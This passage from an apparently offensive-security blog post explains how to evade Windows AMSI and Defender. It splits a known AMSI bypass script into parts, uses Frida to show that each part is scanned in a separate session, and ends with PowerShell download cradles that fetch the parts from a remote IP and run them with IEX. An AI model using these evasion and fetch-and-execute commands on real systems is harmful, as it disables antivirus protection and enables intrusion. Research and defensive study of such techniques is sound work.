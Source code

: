 
As shown above, the bypass doesn't get caught, and we successfully turn off
AMSI. Defender is triggered by the whole script but not by its individual
parts.

Not very useful if we just want a one liner, but bear with me.

#### Digging with Frida

Let's use [Frida](https://frida.re/) to check out what is happening under
the hood with the AMSI APIs, similarly to what is described in [this post](
https://www.contextis.com/en/blog/amsi-bypass). Having a [reference](
https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interf=
ace-functions)
to the different AMSI functions can be useful.

If we run two separate commands in separate PowerShell prompts, they get
scanned separately. More precisely we have two Scans, each happening in a
separate AMSI session. Let's demonstrate below.

Just showing relevant scans, this is what we observe:

![image3.png]({{site.baseurl}}/_posts/images/image3.png)

![image4.png]({{site.baseurl}}/_posts/images/image4.png)

![image5.png]({{site.baseurl}}/_posts/images/image5.png)


A simplified version is shown below:

```
AmsiOpenSession()
AmsiScanBuffer($first)
AmsiCloseSession()

AmsiOpenSession()
AmsiScanBuffer($second)
AmsiCloseSession()
```

So, when we ran the three parts of Rasta Mouse's script on different
prompts, the same thing happened. Each part got scanned separately, each in
their own AMSI session. None triggered AMSI individually, and Windows
Defender didn't somehow link the parts together.

#### Going for a one-liner

We're a bit unhappy with running our script manually, one chunk at a time
on the PowerShell GUI, so we will now work on getting it all on one prompt.

We save the 3 parts in different files (1/2/3), and we will run them in one
go using 3 download cradles. Works.
```
(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/1.txt") | IEX;
(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/2.txt") | IEX ;
(New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/3.txt") | IEX;
```
